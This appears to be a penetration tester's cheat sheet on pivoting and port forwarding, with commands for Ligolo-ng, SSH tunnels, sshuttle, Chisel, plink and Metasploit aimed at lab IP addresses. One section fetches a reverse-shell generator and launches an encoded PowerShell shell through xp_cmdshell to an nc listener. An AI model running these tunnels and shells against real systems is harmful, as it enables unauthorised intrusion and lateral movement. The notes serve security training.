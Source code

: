 # Port Forwarding / Pivoting

<details>

<summary>Ligolo-ng</summary>

On Kali:

```
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
./proxy_linux64 -selfcert -laddr 0.0.0.0:443 
		
# After client connects:
  In Ligolo-ng session: ifconfig
  In Kali terminal: sudo ip route add <internal-subnet> dev ligolo
```

On pivot machine:

```
.\agent_win64.exe -connect 192.168.45.227:443 -ignore-cert
```

**Double pivoting:**

<pre><code># In Ligolo session
<strong>listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80
</strong>
# In Internal Machine B
.\agent_win64.exe -connect &#x3C;Pivot_A_IP>:80 -ignore-cert
</code></pre>

</details>

<details>

<summary>Dynamic Port Forwarding</summary>

On Kali machine:

```bash
ssh -f -N -D 1080 j0hn@10.11.1.252
```

Edit `/etc/proxychains.conf`

```bash
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5 	127.0.0.1 1080
```

Using tools:

```bash
proxychains -q curl http://10.3.3.13
```

For burp, see [here](../configurations/burpsuite-upstream-proxy.md)

</details>

<details>

<summary>Reverse Port Forwarding</summary>

On Kali:

```bash
service ssh start
```

On Target:&#x20;

```bash
ssh -f -N -R 44544:127.0.0.1:445 kali@192.168.45.241
```

* Opens port 44544 on kali and forwards to the target's port 445.

</details>

<details>

<summary>Sshuttle</summary>

On Kali:

* SSH creds of edge machine
* Internal network to be exposed

```bash
sshuttle -r sean@10.11.1.251 10.1.1.0/24
```

</details>

<details>

<summary>Chisel &#x26; Proxychains</summary>

### Kill port 8080

```bash
fuser -k 8080/tcp
```

### On Kali:

* Copied chisel [pre-compiled](https://github.com/jpillora/chisel/releases/tag/v1.7.6)

```bash
chisel server -p 8080 --reverse
```

* Edit `/etc/proxychains.conf`

```bash
socks5 127.0.0.1 1080
```

### On Victim:

```bash
chisel client 192.168.45.191:8080 R:socks
```

## Configure Burp for Web Browsing via Chisel

```bash
Proxy Type: SOCKS5
Proxy IP address: 127.0.0.1
Port: 1080
```

## Proxychains Nmap Usage

* Have to use TCP Connect scan (-sT)
* ICMP doesn’t work over proxychains (hence need -Pn)
* vv slow, could instead install & use nmap on the compromised host.

```bash
proxychains nmap ..
```

</details>

<details>

<summary>Reverse Port Forward to Remote Server (when victim can't reach attacker directly)</summary>

[https://simplecheatsheet.com/ssh-tunnel-proxy/](https://simplecheatsheet.com/ssh-tunnel-proxy/)

### Background

* Attacker has access to MS01.
* Chisel is already in place but MS02 in internal network still unable to reach attacker.

### On Kali:

```bash
ssh web_svc@192.168.218.147 -N -R *:7777:localhost:7777
```

### On Victim:

* Insert in MS01's internal IP as Reverse IP
* Reverse port is 7777

```bash
wget https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
python3 mkpsrevshell.py 10.10.108.147 7777
SQL> xp_cmdshell "powershell -e JABj..."
```

### On Kali:

```bash
nc -lvp 7777
# listening on [any] 7777 ...
# connect to [127.0.0.1] from localhost [127.0.0.1] 39614

# PS C:\Windows\system32> whoami
# nt service\mssql$sqlexpress
```

</details>

<details>

<summary>Exposing An Internal port from Windows Victim</summary>

### Using Plink:

To forward victim port 80 to kali's port 80

On Windows victim:

```bash
plink.exe -N -R 80:127.0.0.1:80 kali@192.168.45.5 -pw .8monitor
```

#### If port 22 is blocked --> try other ports

```bash
# Inside /etc/ssh/sshd_config
	  14 Port 139
	  15 AddressFamily any
	  16 ListenAddress 0.0.0.0
  	  17 ListenAddress ::

# On Victim
plink.exe -N -R 8888:127.0.0.1:8888 kali@10.10.14.2 -pw .8monitor -P 139
```

### Using Chisel:

To forward victim's port 3306 to kali's port 3306

On Kali:

```bash
chisel server -p 8080 --reverse
```

On Victim:

```bash
chiselx64.exe client 192.168.45.5:8080 R:3306:127.0.0.1:3306
```

</details>

<details>

<summary>Local Port Forwarding</summary>

To forward victim port 80 to kali's port 8000.

On Kali:

```bash
ssh -N -L 8000:192.168.165.99:80 ariah@192.168.165.99
```

</details>

<details>

<summary>Double Pivoting</summary>

### Use port 2080 instead

```bash
proxychains -q ssh -f -N -D 2080 -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss bill@10.1.1.1
```

### Copy /etc/proxychains.conf, edit the port to 2080

```bash
 111 [ProxyList]
 112 # add proxy here ...
 113 # meanwhile
 114 # defaults set to "tor"
 115 socks5  127.0.0.1 2080
```

### Usage&#x20;

```bash
proxychains -q -f /home/kali/Documents/offsec/10.1.1.1/proxychains_2080.conf nmap --top-ports 100 -sT -Pn 10.3.3.14
```

</details>

<details>

<summary>Metasploit's Autoroute</summary>

```
background
use multi/manage/autoroute
set session 1
exploit

use auxiliary/server/socks_proxy 
set srvhost 127.0.0.1
exploit -j
```

Then, in Kali:

```
sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf'
proxychains rdesktop 192.168.122.10
```

</details>

<details>

<summary>Links</summary>

[https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61](https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61)

[https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)

[https://www.ctfnote.com/red-teaming/pivoting](https://www.ctfnote.com/red-teaming/pivoting)

</details>

